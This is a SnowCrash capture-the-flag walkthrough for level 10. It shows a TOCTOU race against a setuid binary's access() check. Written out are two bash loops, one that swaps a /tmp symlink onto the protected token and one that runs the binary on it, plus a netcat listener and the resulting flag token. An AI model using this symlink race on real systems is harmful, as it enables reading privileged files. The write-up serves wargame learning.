 # Level 10

- Once logged in, you will see a binary file `level10` and the `token` file.

```
???$ ssh level10@localhost -p 4242
	   _____                      _____               _
	  / ____|                    / ____|             | |
	 | (___  _ __   _____      _| |     _ __ __ _ ___| |__
	  \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \
	  ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
	 |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|

  Good luck & Have fun

          localhost 10.110.0.2
level10@localhost's password:
level10@SnowCrash:~$ ls
level10  token
level10@SnowCrash:~$ ls -ls
total 16
12 -rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
 4 -rw-------  1 flag10 flag10     26 Mar  5  2016 token
```

Yes, it looks same is the previous line, but let's check what's the differernce.

```
level10@SnowCrash:~$ ./level10
./level10 file host
	sends file to host if you have access to it
level10@SnowCrash:~$
```
there is a token, but the access is only granted for `flag10` user.

```
level10@SnowCrash:~$ ./level10 token localhost
You don't have access to token
```

and check the binary
```
level10@SnowCrash:~$ strings level10
[...]
GLIBC_2.4
GLIBC_2.0
PTRh
UWVS
[^_]
%s file host
	sends file to host if you have access to it
Connecting to %s:6969 ..
Unable to connect to host %s
.*( )*.
Unable to write banner to host %s
Connected!
Sending file ..
Damn. Unable to open file
Unable to read from file: %s
wrote file!
You don't have access to %s
;*2$"
[...]
```

let's check how this works
```
level10@SnowCrash:~$ ltrace ./level10 token localhost
__libc_start_main(0x80486d4, 3, 0xbffff784, 0x8048970, 0x80489e0 <unfinished ...>
access("token", 4)                                  = -1
printf("You don't have access to %s\n", "token"You don't have access to token
)    = 31
+++ exited (status 31) +++
level10@SnowCrash:~$
```
here, the `access` function is called, to check the permission of the file.

on manual of access `man 2 access`, the following is presented
```
ACCESS(2)                    Linux Programmer's Manual                   ACCESS(2)
...
NOTES
       Warning: Using access() to check if a user is authorized to,  for  example,
       open a file before actually doing so using open(2) creates a security hole,
       because the user might exploit the short time interval between checking and
       opening the file to manipulate it.  For this reason, the use of this system
       call should be avoided.  (In the example just described, a  safer  alterna-
       tive  would be to temporarily switch the process's effective user ID to the
       real ID and then call open(2).)
...
```
[`TOCTOU race`](https://stackoverflow.com/questions/7925177/access-security-hole) is mentioned about this security hole.

In order to capture the `smaall gap` in between `access()` and `open()` the following will be prompted.

First, run `netcat` on port `6969`

```
level10@SnowCrash:~$ nc -lk 6969
```

and creating and run script that symlinks with the `token` file,

```
#!/bin/bash

while true; do
        touch /tmp/symlink
        rm -f /tmp/symlink
        ln -s /home/user/level10/token /tmp/symlink
        rm -f /tmp/symlink
done
```

and execute the `level10` binary with symlink created

```
#!/bin/bash

while true; do
	./level10 /tmp/symlink 127.0.0.1;
done
```

and listen on the port `6969` for capturing any incoming data

```
level10@SnowCrash:~$ nc -lk 6969 &
```
with the flag achieved, let's try logging into `flag11`

```
level10@SnowCrash:~$ su flag11
Password:
Don't forget to launch getflag !
flag11@SnowCrash:~$ getflag
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
flag11@SnowCrash:~$
```
